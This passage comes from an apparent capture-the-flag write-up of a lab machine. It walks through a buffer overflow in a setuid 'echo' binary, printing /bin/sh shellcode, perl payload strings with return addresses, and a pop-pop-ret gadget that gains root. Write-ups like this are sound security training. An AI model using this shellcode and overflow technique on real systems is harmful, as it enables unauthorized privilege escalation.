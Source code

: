 And it is that the `shellcode` is not interpreted well, and to avoid that, I will escape the printable bytes, when I use the following code in `Python3` to do it:
```python
>>> print("b'{}'".format(''.join('\\x{:02x}'.format(b) for b in
shellcode)))
b'\x6a\x68\x68\x2f\x2f\x2f\x73\x68\x2f\x62\x69\x6e\x89\xe3\x68\x01\x01\x01
\x01\x81\x34\x24\x72\x69\x01\x01\x31\xc9\x51\x6a\x04\x59\x01\xe1\x51\x89
\xe1\x31\xd2\x6a\x0b\x58\xcd\x80'
```
When I send the new payload:
```shell
$ gdb-peda$ r $(perl -e 'print "\x6a\x68\x68\x2f\x2f\x2f\x73\x68\x2f\x62
\x69\x6e\x89\xe3\x68\x01\x01\x01\x01\x81\x34\x24\x72\x69\x01\x01\x31\xc9
\x51\x6a\x04\x59\x01\xe1\x51\x89\xe1\x31\xd2\x6a\x0b\x58\xcd\x80" .
"A" x 260 . "\x93\x84\x04\x08" x 43 ')
```
Then I find another problem:

![evidence](./static/20-payload-nullbyte.png)

And the `strcpy` is including the `null` byte terminator from the `string`, and that overwrites the pointer to the payload, then I need to reduce the number of addresses from `43` to `42`, but I need to ensure that the last `ret` will take the payload pointer, and to do that, I need a gadget that has two `pop` instructions, and I find in the `echo-rop.txt` file:
```
0x80484f7: pop edi; pop ebp; ret
```
When I test the new payload in the target server:
```shell
underdist@Underdist:~/.bin$ ./echo r $(perl -e 'print "\x6a\x68\x68\x2f\x2f
\x2f\x73\x68\x2f\x62\x69\x6e\x89\xe3\x68\x01\x01\x01\x01\x81\x34\x24\x72
\x69\x01\x01\x31\xc9\x51\x6a\x04\x59\x01\xe1\x51\x89\xe1\x31\xd2\x6a\x0b
\x58\xcd\x80" . "A" x 260 . "\xf7\x84\x04\x08" . "\x93\x84\x04\x08" x 41'
2>/dev/null)
```
Then I can get the `root` privileges, and I can get the `root` flag:

